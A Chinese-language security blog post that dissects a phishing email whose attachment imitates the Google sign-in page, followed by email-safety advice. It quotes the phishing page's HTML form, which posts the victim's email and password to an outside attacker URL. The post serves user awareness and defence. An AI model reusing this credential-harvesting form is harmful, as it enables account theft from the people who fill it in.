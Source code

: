 ```yaml
---

title: "Google 帳號釣魚案例"
description: "你收過釣魚信件嗎？電子郵件已經是目前常見的攻擊管道，除了惡意郵件、病毒信、釣魚信等，更有社交工程等攻擊手法。本文將分析一個簡單的 Google 帳號釣魚案例，希望大家能多防範此類攻擊！ "
category: "案例剖析"
tags: [Mail, Phishing]
author: "allenown"
keywords: "Phishing, Google, 社交工程, 網路釣魚"
og_image: ""
---
```



最近身邊的朋友不斷的收到 Gmail 中 Google 的警告：

![Gmail state-sponsored attacker warning](https://lh6.googleusercontent.com/-GpAMTR_IrK0/UzlQhywLcII/AAAAAAAAAO8/LgV3z4knQc4/w788-h26-no/2014-03-31-Google-Account-Phishing-Scam-01.png "Gmail state-sponsored attacker warning")

![Gmail 國家資助的攻擊者警告](https://lh4.googleusercontent.com/-4JfiexvrRVs/UzlQh7GiRPI/AAAAAAAAAOw/uGaBU031GnA/w1024-h649-no/2014-03-31-Google-Account-Phishing-Scam-03.png "Gmail 國家資助的攻擊者警告")

駭客間的戰爭已經不只是個人對個人，而已經擴大成國家對國家。一個國家為了獲取他國的機密文件、情報、個人資料等，都會想盡各種辦法入侵帳號、寄送惡意郵件、釣魚盜取密碼等。而身為受害者的我們能做什麼呢？Google 官方提出的建議是：加強密碼安全、注意登入 IP 位址、更新自己使用的軟體、[開啟二階段驗證](https://support.google.com/accounts/answer/180744?hl=zh-Hant)。當然有良好的資安意識才是更重要的。

正好今天收到一個簡單的案例，提供給各位參考。

READMORE

在信箱中躺著一封很像是國外客戶的信件「Company Profile / Order Details」。內容看起來也很正常，並且附上了公司的基本資料為附加檔案。

![釣魚信件](https://lh6.googleusercontent.com/-BczI2MA-WFw/UzlQihSF0bI/AAAAAAAAAO0/qkzfK9xXoZ8/w708-h548-no/2014-03-31-Google-Account-Phishing-Scam-04.png "釣魚信件")

點開附件，會發現畫面先跳了 JavaScript 警告視窗後，隨即導向到 Google 登入頁面。

注意看，這個登入頁面是真的嗎？有沒有發現畫面上的「Stay signed in」前面的勾變成方框了？瀏覽器上的網址也是在本機的位址。想想看，怎麼可能點了附件之後，跳轉到 Google 登入畫面？

![釣魚信件附件假冒 Google 登入](https://lh3.googleusercontent.com/-a_-JazlxC0o/UzlQiscnjDI/AAAAAAAAAPE/i9vS3hd5m_I/w897-h678-no/2014-03-31-Google-Account-Phishing-Scam-05.png "釣魚信件附件假冒 Google 登入")

讓我們看一下原始碼，會發現他的 form 被改成一個奇怪的網址，看起來就是惡意網站。其餘網頁的部份都是從 Google 真實的登入頁面抓取下來修改的。因此只要一不注意，就會以為是真的 Google 登入畫面而輸入帳號密碼。

[![釣魚信件原始碼](https://lh6.googleusercontent.com/-zI1dvdo-yQk/UzlQjVfs2gI/AAAAAAAAAPI/F4Lv_G43Tgo/w850-h678-no/2014-03-31-Google-Account-Phishing-Scam-06.png "釣魚信件原始碼")](https://lh6.googleusercontent.com/-zI1dvdo-yQk/UzlQjVfs2gI/AAAAAAAAAPI/F4Lv_G43Tgo/w1280/2014-03-31-Google-Account-Phishing-Scam-06.png)

節錄部分 code 如下：
{% highlight html %}
 <form novalidate="" method="post" action="http://cantonfair.a78.org/yahoo/post.php" id="gaia_loginform">
  <input name="GALX" value="6UMbQQmFgwI" type="hidden">
  <input name="continue" value="http://mail.google.com/mail/" type="hidden">
  <input name="service" value="mail" type="hidden">
  <input name="hl" value="en" type="hidden">
  <input name="scc" value="1" type="hidden">
  <input name="sacu" value="1" type="hidden">
  <input id="_utf8" name="_utf8" value="☃" type="hidden">
  <input name="bgresponse" id="bgresponse" value="js_disabled" type="hidden">
  <input id="pstMsg" name="pstMsg" value="1" type="hidden">
  <input id="dnConn" name="dnConn" value="" type="hidden">
  <input id="checkConnection" name="checkConnection" value="youtube:424:1" type="hidden">
  <input id="checkedDomains" name="checkedDomains" value="youtube" type="hidden">
<label class="hidden-label" for="Email">Email</label>
<input id="Email" name="Email" placeholder="Email" spellcheck="false" class="" type="email">
<label class="hidden-label" for="Passwd">Password</label>
<input id="Passwd" name="Passwd" placeholder="Password" class="" type="password">
<input id="signIn" name="signIn" class="rc-button rc-button-submit" value="Sign in" type="submit">
{% endhighlight %}

發現了嗎？其中 form 的 action 欄位被取代成「**http://cantonfair.a78.org/yahoo/post.php**」，而這個頁面會直接接收受害者輸入的帳號密碼，並且自動跳轉到真正的 Google 登入頁面。攻擊者從 a78.org 這個網站中直接取得所有被駭的人輸入的帳號密碼。

這是一個很簡單、典型、又易被發現的釣魚案例。如果一時不察不小心輸入了帳號密碼，下次帳號被盜的就是自己。建議大家在收取信件的時候遵循幾大原則：

1. 不隨便開啟附加檔案：附件常夾帶惡意程式、執行檔、惡意文件、釣魚網頁等，切勿隨便開啟。可使用 Google Docs 開啟附件文件防止惡意文件攻擊 Adobe PDF Reader、Microsoft Office 等程式。更常有把惡意程式加密壓縮後寄出，在信中附上密碼，借此規避防毒軟體的偵測，不可不慎。
2. 注意信件中的超連結 URL：釣魚信件常在超連結中使用惡意網站的 URL，在點選之前務必仔細檢查，更要小心「Goog**l**e」及「Goog**1**e」之類的英文數字差異。
3. 注意信件中的語氣：有的時候攻擊者仿冒你身邊可信任的人寄信給你，但是語氣、用詞要非常精準。如果出現了「**尊敬的用戶您好**」你就會發現這個應該不太像是台灣本土的信件用語。
4. 不在信件中夾帶機敏資料：信件是不安全的，切勿在信中提到帳號、密碼、個資等機密資料。
5. 不回應陌生郵件：郵件中會夾帶自己的 IP 位址，回應信件可能讓攻擊者得到這些資料。
6. 使用安全的郵件軟體：若使用安全的郵件軟體、平台，例如 Gmail，遇到惡意郵件時，會即時阻擋並且警告用戶。如果使用自己的郵件軟體，就要特別注意釣魚等攻擊。

電子郵件的攻擊已經成為滲透攻擊主要的手法之一，不少國際資安事件都是肇因於惡意郵件。例如 2013 年韓國 DarkSeoul 事件，以及竄改交易匯款資料郵件詐取匯款等。身為目標的我們更要時時注意使用電子郵件時的安全事項。
